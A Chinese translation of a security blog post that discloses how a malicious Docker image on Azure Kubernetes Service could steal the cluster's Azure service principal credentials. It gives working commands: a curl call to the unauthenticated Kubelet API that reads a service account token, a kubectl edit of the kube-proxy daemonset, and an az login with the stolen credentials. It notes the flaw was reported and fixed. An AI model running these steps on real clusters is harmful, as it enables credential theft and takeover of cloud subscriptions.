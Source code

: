 # AKS 上一个淘气的 docker 图片是如何让攻击者访问你的 Azure 订阅的？

> 原文：<https://itnext.io/how-a-naughty-docker-image-on-aks-could-give-an-attacker-access-to-your-azure-subscription-6d05b92bf811?source=collection_archive---------7----------------------->

## **TL；DR** :在 AKS 集群中调度的恶意 docker 映像可以自动提取集群服务主体详细信息，允许攻击者提升其权限并针对受害者的 Azure 订阅运行命令。

![](img/ea563c9f194675fc1cccc769451a67b3.png)

由[马克·里切思](https://unsplash.com/photos/92_FGwSRQlA?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)在 [Unsplash](https://unsplash.com/search/photos/danger?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) 上拍摄的照片

> 免责声明:以下内容仅供参考。该漏洞只是为了强调需要保护您的 AKS 集群，不要使用不可信的 docker 映像。因此，使用此处包含的信息完全由您自己承担风险。

我将演示我创建的一个漏洞，它允许一个简单的容器从 AKS 集群中找到 Azure 服务主体细节，并将其发送到一个远程 URL。

这里使用的大部分东西都是基于我不久前写的[接管 AKS 集群的帖子](https://medium.com/@pjbgf/taking-over-a-kubernetes-cluster-challenge-1-46b527d0f086)。实现这一点的一个基础是 Kubelet API 技巧[，它允许您在一个节点内查看任何正在运行的 pod，即使您的 pod 作为非根用户/最低特权用户运行，它也会给您额外的权限。](/aks-kubernetes-security-walk-through-challenge-2-dbe3ed16beec)

为了更好地理解我们将如何访问 Azure 订阅，您需要知道 AKS 基于 [ACS 引擎](https://github.com/Azure/acs-engine)，这是一个开源项目，可以简化 Azure 上的集群供应。它在内部使用一个文件来存储服务主体名称(SPN ),这样它就可以与 Azure API 进行交互。该文件存在于每个群集节点中，位于以下路径:

```
/etc/kubernetes/azure.json
```

有几种不同的方法可以获取该文件的内容，但本质上，我们需要将主机(节点)卷挂载到一个特权容器上。

我发现的最偷偷摸摸的方法是操作 kube-proxy daemonset，它已经作为特权运行并挂载到/etc/kubernetes/certs。由于人们往往不太注意 kube-system 名称空间中发生的事情，我们将进行的更改很容易被忽略。

## 获取 API 服务器令牌

根据映像的调度方式，您可能会也可能不会在 pod 中装载 API 服务器令牌。为了使其更加通用，我们将从 kube-proxy 容器中获取令牌:

```
curl --connect-timeout 5 -sk https://10.240.0.4:10250/run/kube-system/$(curl -sk https://10.240.0.4:10250/runningpods/ | jq '.items[].metadata.name' | grep kube-proxy | sed 's/"//g')/kube-proxy/ -d "cmd=cat /run/secrets/kubernetes.io/serviceaccount/token" -o token.txt
```

请注意，我们正在利用对 IP 10.240.0.4 上 Kubelet API 的未授权访问。这通常是 AKS 集群中的第一个节点。然而，更聪明的利用方式可以动态地发现这一点。

## 篡改 kube-proxy

kube-proxy 需要访问路径/etc/kubernetes/certs。我们将修改它，所以我们实际上挂载它的父文件夹。这个简单的改变将保持系统正常工作，因为 certs 映射仍然可用，但是，它也将为我们提供对 azure.json 文件的访问。这是我们将获得的全部内容:

![](img/cb0ea2faf50cc330a75ba77dd1d1d312.png)

理论上，这可以通过导出其 yaml 文件，用/kubernetes 替换 kubernetes/certs，然后应用更改来实现:

```
kubectl get ds/kube-proxy --namespace kube-system -o yaml --export | sed -E 's/kubernetes\/certs/kubernetes/g' | kubectl apply --namespace kube-system -f -
```

默认情况下，daemonsets 上的更改仅在删除时推出。因此，在实际利用中，我们分三步进行:1 .导出，2。删除现有 kube-proxy，3。应用更改。

这是完整的漏洞。sh:

当执行时，它将打印 Azure SPN 并将其发布到外部 URL。

![](img/ba746eecb4729c03076092d38d792d3f.png)

## 访问 Azure 订阅

有了这些信息，任何人都可以通过 [Azure CLI](https://docs.microsoft.com/en-us/cli/azure/install-azure-cli?view=azure-cli-latest) 登录你的 Azure 订阅。

```
az login --service-principal -u SPN_USER_NAME -p PASSWORD --tenant TENANT_ID_OR_NAME
```

查询其权限:

```
az role assignment list --assignee SPN_USER_NAME
```

默认情况下，SPN 是群集资源组成员。但是，如果提供集群的人做得不好，这个 SPN 可能是订阅所有者、贡献者等。

无论哪种方式，从这一点来看，攻击者都有足够的权限来中断您的服务，或者在群集资源组中旋转新的资源来做他们想做的任何事情——我刚才听到的是加密挖掘吗？

我在 2018 年 2 月与微软安全团队分享了一个类似的漏洞，他们正在努力修复它。同时，确保你只在集群中使用**信任的** docker 镜像。

**2018 年 8 月 7 日更新:这真是个好消息，微软已经修复了这个问题。下面的命令现在将导致 HTTP 401 未授权:**

```
curl -sk [https://{NODE_IP}:10250/runningpods/](https://10.240.0.4:10250/runningpods/)
curl --connect-timeout 5 -sk [https://{NODE_IP}:10250/run/kube-system/{POD_NAME}/kube-proxy/](https://10.240.0.4:10250/run/kube-system/kube-proxy-9cph5/kube-proxy/)
```